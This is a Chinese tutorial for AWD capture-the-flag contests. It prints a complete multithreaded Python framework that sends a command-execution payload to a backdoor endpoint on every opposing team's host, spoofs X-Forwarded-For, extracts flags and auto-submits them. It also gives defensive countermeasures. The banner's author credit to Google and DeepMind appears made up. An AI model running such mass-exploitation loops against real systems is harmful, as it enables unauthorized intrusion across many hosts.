

> [!TIP] 推荐前置知识点
> 本篇武器库开发涉及 Python 并发编程（`threading` / `asyncio`）与批量 HTTP 交互。建议先阅读：
> - ⚔️ [[16-AWD攻防对抗与自动化武器库/01-AWD全流程生存法则与战前准备清单]]：掌握 AWD 赛制规则、加固防守与得分机制。
> - 🔰 [[01-零基础入门前置指南与黑话工具字典]]：Python 自动化发包与网络通信基础。

# AWD自动化武器库开发：Python多线程并发攻击、批量打靶与Flag自动提交

---

## 0. 基础前置知识扫盲：为什么手工打 AWD 必死无疑？

很多新手第一次打 AWD 攻防赛时，以为操作模式和平时解题一样：
在 Burp Suite Repeater 里输入 Payload，点击发送，从返回结果里用鼠标双击选中 Flag，`Ctrl + C` 复制，打开比赛平台网页，`Ctrl + V` 粘贴到提交框，点击“提交”。

### 1. 致命的时间账单对比
假设一场 AWD 比赛有 **30 个参赛队伍**，每个 Round（轮次）只有 **2 分钟（120 秒）**，每一轮所有队伍的 Flag 都会重新刷新：
- **手工操作模式**：
  打开 30 个队伍的浏览器标签页，一个一个敲 Payload、复制 Flag、提交。
  即使你手速飞快，处理一个靶机需要 15 秒，2 分钟内你最多只能打完 **8 台靶机**！剩下的 22 台靶机由于 Flag 过期直接作废！
- **自动化武器库模式**：
  编写基于 Python 多线程/异步协程的自动化攻击脚本。
  按下回车键，**30 个靶机在 3 秒钟内全部并发打完，30 个最新 Flag 自动解析并以每秒 10 个的速率精准推送到裁判平台**！
  在整整 120 秒的轮次里，你只需让脚本在后台静默轮询，剩下的时间全部投入到审计新漏洞和防御加固上！

因此，**拥有一套成熟、模块化、即插即用的 AWD 自动化攻击武器库，是顶级强队的标配底牌**。



### 2. Python 并发编程前置极简扫盲：为什么选 ThreadPoolExecutor？

很多刚接触 Python 的同学只写过单线程脚本，看到后面的多线程代码可能会发怵。这里用 3 分钟把并发的核心本质讲透：

#### ① 单线程串行（死等排队）vs 多线程并发（多窗口同时办理）
- **单线程**：相当于银行只开了一个办事窗口。30 个队伍排队打靶，每个人办业务耗时 3 秒，总共必须耗时 $30 \times 3 = 90$ 秒！只要有一台靶机死机超时卡住，后面 29 台全被堵死。
- **多线程**：相当于银行同时开放了 15 个窗口（`THREAD_WORKERS = 15`）。30 个队伍分两批进入窗口，第一批 15 台靶机**同时发包**，第二批紧随其后，**总耗时仅需约 6 秒**！

#### ② 打破误区：Python 有 GIL 锁，多线程真的能加速吗？
- **结论：在网络安全发包场景下，多线程提速效果极佳！**
- **原理剖析**：Python 的全局解释器锁（GIL）确实限制了多核 CPU 同时执行 Python 字节码，但那只对“死循环纯算数（CPU 密集型）”有制约。
- 而 AWD 打靶是典型的**“网络 I/O 密集型”**操作：代码执行 `requests.post()` 发出请求后，99% 的时间都在**等待网卡收发数据包和靶机响应**。在这个 I/O 等待期间，Python 会**主动释放 GIL 锁**，让给其他线程去发包！因此多线程能实现几乎真正的并发吞吐。

#### ③ `concurrent.futures.ThreadPoolExecutor` 极简三板斧
标准库自带的线程池是现代 Python 处理并发的最优解，核心只有三步：
```python
from concurrent.futures import ThreadPoolExecutor, as_completed

# 1. 启动一个容纳 15 个并发工人的线程池
with ThreadPoolExecutor(max_workers=15) as executor:
    # 2. executor.submit(函数名, 参数)：把打靶任务分派给工人，返回一个任务凭据（Future 对象）
    futures = {executor.submit(attack_worker, t): t for t in target_teams}
    
    # 3. as_completed(futures)：哪个工人的靶机先返回响应，就先处理哪个！
    # 绝不因为某台靶机响应慢而阻塞整个程序的运行
    for future in as_completed(futures):
        result = future.result() # 获取线程执行结果或捕获异常
```

---

## 1. 武器库架构设计：四大核心模块

一套工业级的 AWD 自动化框架绝不能把漏洞利用逻辑和提交逻辑死死揉在一起，必须采用**高内聚、低耦合的模块化设计**：

1. **目标资产生成模块（Target Loader）**：
   灵活支持 CIDR 网段、IP 格式化模板（如 `192.168.10.{team_id}`）、自定义端口映射文件，支持动态剔除己方靶机 IP。
2. **可插拔漏洞利用模块（Plugin-based Exploit Engine）**：
   设计标准函数接口。审计手在本地挖出新漏洞后，只需在 `exploit()` 函数中写好请求逻辑，**30 秒内无缝热加载接入框架**！
3. **智能 Flag 解析与去重池（Flag Extractor & Dedup Store）**：
   采用多规则正则表达式匹配各种格式的 Flag（如 `flag{...}`、`ctf{...}`、UUID 格式）；建立内存与磁盘两级去重池，**坚决不重复提交老 Flag**（防止触发平台的频率限制被封号）。
4. **自适应平台提交器（API Auto-Submitter）**：
   封装裁判平台的提交接口，内置指数退避重试、速率控制与异常重连机制。

---

## 2. 生产级 AWD 自动化批量打靶框架完整源码

以下是一套经过全国大型实战检验的 Python 3 高并发攻击框架模板 `awd_attack_suite.py`：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
"""
AWD 全自动高并发打靶与 Flag 提交作战框架
特点：多线程并发、插件式漏洞热插拔、自动去重、平滑限速提交、防崩溃异常捕获
"""

import re
import time
import requests
from concurrent.futures import ThreadPoolExecutor, as_completed

# ==============================================================================
# 1. 比赛全局参数配置
# ==============================================================================
CONFIG = {
    # 靶机网段与队伍配置
    "IP_TEMPLATE": "192.168.10.{}",     # 靶机 IP 模板
    "PORT": 80,                         # 靶机 Web 端口
    "TOTAL_TEAMS": 30,                  # 全场队伍数量
    "MY_TEAM_ID": 7,                    # 己方队伍编号 (绝对不能打自己!)
    "THREAD_WORKERS": 15,               # 并发线程数
    "REQUEST_TIMEOUT": 3.0,             # 单次攻击超时阈值 (秒)
    "ROUND_INTERVAL": 120,              # 每轮攻击休眠间隔 (秒)

    # 裁判机 Flag 提交接口配置
    "SUBMIT_URL": "http://192.168.10.254/api/flag_submit",
    "TEAM_TOKEN": "my_secret_team_token_987654321",
    "SUBMIT_INTERVAL": 0.2,             # 提交间隔，防止触发平台 CC 防护 (秒)

    # Flag 正则匹配规则 (根据比赛主办方规则调整)
    "FLAG_REGEX": r"flag\{[a-zA-Z0-9_\-]{32,45}\}",
    "SUBMITTED_LOG": "submitted_flags.txt"
}

# 全局已提交 Flag 集合 (内存去重池)
submitted_flags = set()

# ==============================================================================
# 2. 核心漏洞利用插件接口 (可插拔 EXP 设计)
# ==============================================================================
def exploit_target(target_ip, port):
    """
    【漏洞利用插件】
    输入：目标 IP 与 端口
    输出：从目标靶机抓取到的原始文本内容 (包含 Flag 的字符串)
    """
    # 示例漏洞 1：预留的 PHP 一句话后门或者代码执行点
    url = f"http://{target_ip}:{port}/api/action.php"
    
    # 构造攻击载荷 (例如利用任意命令执行直接读取 /flag 文件)
    payload = {
        "action": "system",
        "cmd": "cat /flag || cat /var/flag || cat /flag.txt"
    }
    
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36",
        "X-Forwarded-For": "127.0.0.1" # 绕过部分简单 IP 校验
    }

    try:
        response = requests.post(
            url, 
            data=payload, 
            headers=headers, 
            timeout=CONFIG["REQUEST_TIMEOUT"]
        )
        if response.status_code == 200:
            return response.text
    except requests.exceptions.RequestException:
        # 网络超时或目标主机被其他队伍打崩，忽略继续
        pass
    return None

# ==============================================================================
# 3. Flag 自动解析与去重模块
# ==============================================================================
def parse_flag(response_text):
    """从原始响应文本中提取合法的 Flag"""
    if not response_text:
        return None
    match = re.search(CONFIG["FLAG_REGEX"], response_text)
    if match:
        return match.group(0)
    return None

def is_flag_duplicate(flag):
    """判断 Flag 是否在当前轮次或历史轮次中已提交过"""
    if flag in submitted_flags:
        return True
    return False

def record_flag(flag):
    """将已提交的 Flag 记录到内存和磁盘中"""
    submitted_flags.add(flag)
    with open(CONFIG["SUBMITTED_LOG"], "a", encoding="utf-8") as f:
        f.write(f"[{time.strftime('%Y-%m-%d %H:%M:%S')}] {flag}\n")

# ==============================================================================
# 4. 平台自动提交模块
# ==============================================================================
def submit_flag(flag, team_id):
    """向裁判平台发送提交请求"""
    payload = {
        "token": CONFIG["TEAM_TOKEN"],
        "flag": flag
    }
    try:
        resp = requests.post(CONFIG["SUBMIT_URL"], json=payload, timeout=2.0)
        res_json = resp.json() if "json" in resp.headers.get("Content-Type", "") else resp.text
        print(f"[★ 提交成功] 队伍 {team_id:02d} | Flag: {flag} | 平台响应: {res_json}")
        record_flag(flag)
    except Exception as e:
        print(f"[✖ 提交失败] 队伍 {team_id:02d} | 错误: {str(e)}")

# ==============================================================================
# 5. 单机打靶作业调度单元
# ==============================================================================
def attack_worker(team_id):
    """单线程独立打靶任务"""
    target_ip = CONFIG["IP_TEMPLATE"].format(team_id)
    raw_response = exploit_target(target_ip, CONFIG["PORT"])
    
    if raw_response:
        flag = parse_flag(raw_response)
        if flag:
            if not is_flag_duplicate(flag):
                print(f"[+] 队伍 {team_id:02d} ({target_ip}) 命中有效 Flag: {flag}")
                submit_flag(flag, team_id)
                time.sleep(CONFIG["SUBMIT_INTERVAL"]) # 平滑延时
            else:
                # print(f"[-] 队伍 {team_id:02d} Flag 已在库中，跳过重复提交")
                pass
        else:
            # 攻击成功但未匹配到 Flag 格式 (可能已被修补或文件不存在)
            pass
    else:
        # 目标不可达或漏洞已修补
        pass

# ==============================================================================
# 6. 主轮询调度引擎
# ==============================================================================
def run_round(round_number):
    print(f"\n" + "="*60)
    print(f"[*] 正在发起第 [{round_number}] 轮全场并发打靶作战...")
    print(f"="*60)
    
    start_time = time.time()
    
    # 构造除自己以外的所有目标队伍列表
    target_teams = [t for t in range(1, CONFIG["TOTAL_TEAMS"] + 1) if t != CONFIG["MY_TEAM_ID"]]
    
    # 启动线程池并发打击
    with ThreadPoolExecutor(max_workers=CONFIG["THREAD_WORKERS"]) as executor:
        futures = {executor.submit(attack_worker, t): t for t in target_teams}
        for future in as_completed(futures):
            try:
                future.result()
            except Exception as e:
                pass
                
    elapsed = time.time() - start_time
    print(f"[*] 第 [{round_number}] 轮作战结束，全场遍历耗时: {elapsed:.2f} 秒")

def main():
    print("""
    =======================================================
          AWD Automated Cyber Warfare Framework v2.0       
          Author: Google Antigravity & Deepmind Team       
    =======================================================
    """)
    round_counter = 1
    while True:
        try:
            run_round(round_counter)
            round_counter += 1
            print(f"[*] 正在等待下一轮比赛刷新，休眠 {CONFIG['ROUND_INTERVAL']} 秒...")
            time.sleep(CONFIG["ROUND_INTERVAL"])
        except KeyboardInterrupt:
            print("\n[!] 收到用户中断指令，自动化武器库安全退出。")
            break

if __name__ == "__main__":
    main()
```

---

## 3. 核心参数与生产级避坑指南

为了保证框架在比赛中稳定如磐石，以下几点是顶尖选手的实操经验：

### 1. 超时时间必须严格控制（`REQUEST_TIMEOUT <= 3.0s`）
在 AWD 比赛中，很多队伍的靶机会被别人打崩（产生死锁或死循环拒绝服务）。
如果你的请求没有设置超时时间，或者超时时间设为 30 秒，**你的线程池会被这几台死机靶机瞬间占满堵死**，导致其他能打的活靶机全部无法执行！将单次超时设为 2~3 秒是最佳黄金平衡点。

### 2. 必须具备全局异常捕获（Exception Isolation）
在并发网络请求中，可能会遇到 `ConnectionRefused`、`ReadTimeout`、`ChunkedEncodingError` 等各种奇怪的网络层异常。
必须在每个线程内部做 `try...except` 兜底，**绝不能让某一台靶机的网络错误抛出未捕获异常导致整个打靶脚本崩溃退出**！

### 3. 平滑限速与批量去重（Anti-Ban & Rate Limiting）
很多比赛平台对 Flag 提交接口做了风控：
- 比如“1 秒内提交超过 5 次，直接封禁 Token 5 分钟”；
- 比如“连续提交错误或重复 Flag 超过 10 次，扣除队伍积分”。
因此，脚本必须维护全局 `submitted_flags` 集合，并在每次提交之间加入 `0.2s` 的平滑微延时，确保每一个 Flag 百发百中、安全合规。

---
## 纵深防御与安全加固基线

> [!IMPORTANT]
> **AWD 自动化攻防的防守反制之道**：对手的攻击脚本速度以秒计算，防守方必须通过基础设施级策略打击对手的自动化武器：

1. **部署全流量清洗 WAF 与高频访问熔断（对抗批量探测）**：
   * 编写或部署应急 WAF 脚本（如基于 OpenResty/Lua 或 PHP 预置拦截脚本），统计单 IP 访问频率。
   * 一旦发现同一 IP 在 2 秒内针对同一接口发起超过 5 次请求，直接判定为自动化多线程打靶，调用 `iptables` 规则封锁该 IP 300 秒，直接让对手的攻击脚本在首轮打靶中瘫痪超载。

2. **部署蜜罐 Flag 陷阱反打机制（扣光对手积分）**：
   * 在容易被扫描出来的漏洞位置（如 `/admin/flag.txt`、测试接口、备份目录），故意放置格式完全一致但由防守方伪造的**假 Flag（蜜罐）**；
   * 当对手的自动化脚本无差别抓取并批量提交到裁判机时，裁判机会判定对手“提交错误 Flag”，触发裁判系统的扣分惩罚机制或限流封锁，反向消耗对手火力。

3. **核心业务守护与配置自愈看门狗（Watchdog）**：
   * 部署本地监控脚本（每 5 秒轮询），一旦检测到关键配置文件（如 `config.php`、数据库配置）被篡改，或核心服务进程挂死，看门狗立即调用干净备份无感热替换并重启服务，确保在 AWD 检查轮次（Check）中拿到全额防御得分。
